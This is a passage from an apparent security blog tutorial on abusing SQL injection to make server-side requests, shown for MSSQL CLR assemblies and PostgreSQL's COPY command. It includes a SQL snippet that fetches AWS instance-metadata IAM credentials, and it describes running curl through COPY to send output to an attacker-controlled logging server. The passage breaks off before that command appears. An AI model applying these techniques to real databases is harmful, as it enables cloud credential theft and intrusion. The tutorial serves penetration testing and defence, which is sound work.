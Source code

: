 ```sql
EXEC sp_add_trusted_assembly 0x35acf108139cdb825538daee61f8b6b07c29d03678a4f6b0a5dae41a2198cf64cefdb1346c38b537480eba426e5f892e8c8c13397d4066d4325bf587d09d0937,N'HttpDb, version=0.0.0.0, culture=neutral, publickeytoken=null, processorarchitecture=msil';
```

Once the assembly is added and the function created, we can run the following to make our HTTP requests

```sql
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
SELECT dbo.http(@url);
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/15.png)

## PostgreSQL

Also known as Postgres, is a free and open source RDBMS. This database contains multiple functions and has support to perform network lookups using extensions that can be enabled with superuser rights.

Additionally, <a href="https://www.postgresql.org/docs/9.1/functions-admin.html#FUNCTIONS-ADMIN-GENFILE" target="_blank" rel="noopener noreferrer">Generic File Access functions like `pg_read_file()` and `pg_read_binary_file()` exist</a> but cannot be used to read UNC paths or other files as these functions are restricted to read only within the `data_directory` variable value.

Here are some other ways by which we can invoke network requests from a PostgresSQL server.

### Using the COPY function

Postgres supports other ways of interacting with the file system which in the case of Windows servers can be used to make SSRF requests to UNC paths. For example, <a href="https://www.postgresql.org/docs/9.2/sql-copy.html">the `COPY` command can be used to copy data between a file and table</a> and supports both `COPY TO` file and `COPY FROM`.

As an example, you can run `copy (select 1) to '/tmp/bb.txt';`. This will create a file at `/tmp/bb.txt` with the content `1`. Unfortunately, you cannot use `COPY TO` to write an extension library to `$libdir` because the `$libdir` directory and the database server process is owned by two different users.

However the most interesting use case of the `COPY` function is its ability to call external programs! Surprisingly, the documentation includes no references to this ability, you can use `COPY` to invoke an external program like `curl` for example.

If the returned data from the execution of the program is not properly formatted CSV, it results in import errors. That should not stop us however from executing programs and making requests as we can always send the output of a program to an attacker controlled server and read it through the logs.

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/10.png)

To use `COPY` to do SSRF, we can run the following sequence of commands to setup an empty table (to avoid errors) and then execute cURL to retrieve and send data to a collection server. The collection server is a <a href="https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7">simple python3 `http.server` implementation that logs GET and POST variables</a>.
